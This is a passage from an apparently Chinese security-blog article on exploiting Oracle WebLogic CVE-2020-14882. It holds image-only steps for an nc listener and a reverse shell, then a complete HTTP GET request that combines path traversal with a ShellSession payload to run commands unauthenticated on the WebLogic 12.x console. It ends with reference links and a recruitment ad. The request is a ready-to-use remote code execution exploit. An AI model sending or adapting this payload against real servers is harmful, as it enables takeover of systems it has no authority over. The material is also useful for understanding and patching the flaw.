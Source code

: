 nc 开启监听。

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JVohBEibicG2QxBLMzwVcEJCypK2HJUrslLQrTIHIybZhicT0v4eELljgS6SNs7G9bhdY0aosNf6rI7Q/640?wx_fmt=png)

3、发送 exp。

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JVohBEibicG2QxBLMzwVcEJCy2VslfYTTiajTFegncOS5tnakZ6CDT9I8TZ4g5H9I6icWicVMOaoj3VteQ/640?wx_fmt=png)

4、成功请求 poc.xml。

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JVohBEibicG2QxBLMzwVcEJCy5H2hoJ0FhGKhhP76aXa8uWO9FJaz2fSMxibTJketgibAzt3ddfeX5Mug/640?wx_fmt=png)

5、成功反弹 shell。

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JVohBEibicG2QxBLMzwVcEJCy45usEHw2mx6mzYcyeiaUZwXzsFNjCg59mCVvOhDEiaBSPx1sTRQ53mxw/640?wx_fmt=png)

_**No.2  
**_

_**Weblogic console 12.x 版本利用**_

命令执行：

```
GET /console/images/%252E%252E%252Fconsole.portal?\_nfpb=true&\_pageLabel=HomePage1&handle=com.tangosol.coherence.mvel2.sh.ShellSession(%22java.lang.Runtime.getRuntime().exec(%27whoami%27);%22); HTTP/1.1
Host: 140.xxx.xxx:7001
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:81.0) Gecko/20100101 Firefox/81.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,\*/\*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: ADMINCONSOLESESSION=6hjQfZ0Y6G21TlS5VTp376gsGmky5X7TP3TDyfBQlLNBjkTnb7r5!916198412
Upgrade-Insecure-Requests: 1
```

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JVohBEibicG2QxBLMzwVcEJCy0kiaDoGic5SZ411siczqrOgibEccAQ5UOHL8Nb4zBibJu1amDarcWpuEaaQ/640?wx_fmt=png)

参考  

https://github.com/jas502n/CVE-2020-14882  
https://mp.weixin.qq.com/s/48VIwTkyFVXUTS78kNByhg

_**招聘启事**_

安恒雷神众测 SRC 运营（实习生）  
————————  
【职责描述】  
1\.  负责 SRC 的微博、微信公众号等线上新媒体的运营工作，保持用户活跃度，提高站点访问量；  
2\.  负责白帽子提交漏洞的漏洞审核、Rank 评级、漏洞修复处理等相关沟通工作，促进审核人员与白帽子之间友好协作沟通；  
3\.  参与策划、组织和落实针对白帽子的线下活动，如沙龙、发布会、技术交流论坛等；  
4\.  积极参与雷神众测的品牌推广工作，协助技术人员输出优质的技术文章；  
5\.  积极参与公司媒体、行业内相关媒体及其他市场资源的工作沟通工作。  
【任职要求】   
 1.  责任心强，性格活泼，具备良好的人际交往能力；  
 2.  对网络安全感兴趣，对行业有基本了解；  
 3.  良好的文案写作能力和活动组织协调能力。
